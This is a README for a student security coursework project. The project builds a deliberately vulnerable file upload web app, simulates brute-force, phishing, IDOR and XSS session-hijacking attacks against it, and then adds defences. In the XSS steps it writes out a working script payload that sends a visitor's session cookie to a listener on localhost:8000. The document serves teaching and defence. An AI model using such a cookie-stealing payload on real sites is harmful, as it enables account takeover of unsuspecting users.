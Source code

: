 # ELEC0138 Group 8 – Security and Privacy challenges in a File Upload App

## Overview

This project aims to analyze and address Security and Privacy challenges in a web-based app (File Upload App) by applying threat modeling and mitigation methods. 

Several cyber attacks targeting common vulnerabilities are designed and implemented. Also, relevant mitigation measures are presented.

A vedio presentation of this project can be seen:(https://youtu.be/MD4qnzbECH4)


## Group Members

- Wenjing Hu
- Zoe Qian
- Andreas Tyrovolas


## Features

```
ELEC0138_Group8/
├── Attack/            # Contains different attacks and relevant mitigation methods
├── static/            # Functions of uploading documents
├── templates/         # HTML templates for the web interface
├── original_system    # Contains original system with no defences files
├── environment.yml    # Conda environment definition
├── initialize_db.py   # Script to initialize the database
├── requirements.txt   # Python package dependencies
├── combined_defences.py # System with all defences implemented
└── system.py          # Main application script

```


## Steps

1. **Clone the Repository**

   ```bash
   git clone https://github.com/Wenjing-1225/ELEC0138_Group8.git
   cd ELEC0138_Group8
   ```


2. **Set Up the Environment**

   Create a Conda environment using the provided `environment.yml` file:

   ```bash
   conda env create -f environment.yml
   conda activate elec0138_group8
   ```


   Alternatively, install dependencies using `requirements.txt`:

   ```bash
   pip install -r requirements.txt
   ```


3. **Run the Application**

   Start the main application:

   ```bash
   python system.py
   ```


   The web interface should now be accessible at `http://localhost:5000/`.


4. **Run the Attack Simulation**

   - **Brute-force Login Attack**:
     
     1. Edit `brute_force.py` to set the target username (e.g. `victim@example.com`)  
     2. Run `brute_force.py`  
        → The script will simulate password guessing attempts by sending repeated login requests using common passwords.  
        → A valid match will be printed to the terminal once found.  
        > This simulates a real-world brute force scenario using multithreading and common credential dictionaries.

   - **Session Hijacking via XSS**:
     
     1. Register a malicious username like:  
        ```html
        <script>new Image().src="http://localhost:8000/steal?cookie="+document.cookie</script>
        ```
     2. Run `listener.py`  
        → This starts a listener on port 8000 to capture incoming cookies.

     3. When a legitimate user visits the homepage, the malicious script will trigger and send their session cookie to the attacker.
     4. Use `hijack_session.py`  
        → Load the captured cookie and simulate a GET request to `/`, gaining unauthorized access as the victim.
   - **Phishing Simulation**:
     
     1. Run `send_phishing.py`  
        → You can modify the `receiver_email` variable to the desired email address.  
        *Please make sure that you have the recipient’s explicit consent before sending any simulated phishing emails.*

     2. Run `app.py`  
        → This will launch the phishing web application.

   - **IDOR Attack Simulation**:

     1. Run `image_attack.py`  
     2. Stolen images will be stored in a separate folder, stolen_images
        
4. **Run the Defense System**

   - **Phishing Detection System**:

     1. Run `model.py`  
        → This initializes and loads the phishing detection model.

     2. Run `combined_defences.py`  
        → This starts the Flask web interface for users to input URLs and receive detection results in Security Center.

   - **IDOR Defence Strategy**:

     1. Run `combined_defences.py`  
     2. This ensures, session based authentication, strict access control, logging and that filenames are securely hashed


